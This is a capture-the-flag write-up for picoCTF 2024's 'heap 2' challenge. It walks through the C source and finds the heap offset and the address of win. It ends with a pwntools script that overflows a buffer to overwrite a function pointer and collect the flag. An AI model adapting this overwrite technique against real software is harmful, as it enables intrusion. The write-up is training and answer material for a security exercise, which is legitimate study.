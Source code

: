 # heap 2

```
Level: Medium
Tags: Binary Exploitation, picoCTF 2024, browser_webshell_solvable, heap
Author: ABRXS, PR1OR1TYQ

Description:
Can you handle function pointers?

Download the binary here.
Download the source here.
 
Hints:
1. Are you doing the right endianness?
```
Challenge link: [https://play.picoctf.org/practice/challenge/435](https://play.picoctf.org/practice/challenge/435)

## Solution

### Analyse the C file

We start by analysing the rather long C source code. First the `main` function.
```c
int main(void) {

    // Setup
    init();

    int choice;

    while (1) {
        print_menu();
        if (scanf("%d", &choice) != 1) exit(0);

        switch (choice) {
        case 1:
            // print heap
            print_heap();
            break;
        case 2:
            write_buffer();
            break;
        case 3:
            // print x
            printf("\n\nx = %s\n\n", x);
            fflush(stdout);
            break;
        case 4:
            // Check for win condition
            check_win();
            break;
        case 5:
            // exit
            return 0;
        default:
            printf("Invalid choice\n");
            fflush(stdout);
        }
    }
}
```
Main basically does the following:
- Initialize the heap by calling the `init` function 
- Print the menu with the `print_menu` function
- Read the menu choice, basically 1-4, and do different things based on the choice

The big difference compared to the previous heap challenge is that the `check_win` function (menu choice 4) is "empty" and will call the address pointed to from the variable `x`
```c
void check_win() { ((void (*)())*(int*)x)(); }
```

There is also a `win` function that will print the flag for us
```c
void win() {
    // Print flag
    char buf[FLAGSIZE_MAX];
    FILE *fd = fopen("flag.txt", "r");
    fgets(buf, FLAGSIZE_MAX, fd);
    printf("%s\n", buf);
    fflush(stdout);

    exit(0);
}
```

Let's skip the rest of the source code for now and try out the binary.

### Run the binary locally

Next, we run the binary
```bash
file chall               
chall: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=d5184d264ae0c1259ba3bb7a1e20fc348b4274b0, for GNU/Linux 3.2.0, with debug_info, not stripped

./chall                    

I have a function, I sometimes like to call it, maybe you should change it

1. Print Heap
2. Write to buffer
3. Print x
4. Print Flag
5. Exit

Enter your choice: 1
[*]   Address   ->   Value   
+-------------+-----------+
[*]   0x49e6b0  ->   pico
+-------------+-----------+
[*]   0x49e6d0  ->   bico

1. Print Heap
2. Write to buffer
3. Print x
4. Print Flag
5. Exit

Enter your choice: 
```
As before, the difference between the memory positions is 32 bytes. 
```bash
python -c "print(0x49e6d0 - 0x49e6b0)"                                                 
32
```

The variable `x` is set to `bico` and if we try to print the flag we get a segmentation fault since `x` currently points to an invalid memory address.
```bash
Enter your choice: 3


x = bico


1. Print Heap
2. Write to buffer
3. Print x
4. Print Flag
5. Exit

Enter your choice: 4
zsh: segmentation fault  ./chall

```

### Create an exploitation script

We need to know the memory address of the `win` function in order to call it.
This can be done with `objdump`
```bash
objdump -D chall | grep win
00000000004011a0 <win>:
00000000004011f0 <check_win>:
```
So the `win` function is at `0x4011a0`.

Next, we write a small python script with the help of [pwntools](https://docs.pwntools.com/en/stable/index.html) to get the flag
```python
#!/usr/bin/python

from pwn import *

SERVER = 'mimas.picoctf.net'
PORT = 56078

# Set output level (critical, error, warning, info, debug)
context.log_level = "info"

io = remote(SERVER, PORT)

# Select menu option 2 (Write to buffer)
io.sendlineafter(b"Enter your choice: ", b'2')

# Send payload
win_func = 0x4011a0
payload = 32 * b'A' + p64(win_func)
io.sendlineafter(b"Data for buffer: ", payload)

# Select menu option 4 (Print Flag)
io.sendlineafter(b"Enter your choice: ", b'4')
print(io.recvallS())
io.close()
```

### Get the flag

Finally, we run the script and get the flag
```bash
~/python_venvs/pwntools/bin/python get_flag.py
[+] Opening connection to mimas.picoctf.net on port 61205: Done
[+] Receiving all data: Done (42B)
[*] Closed connection to mimas.picoctf.net port 61205
picoCTF{<REDACTED>}
```
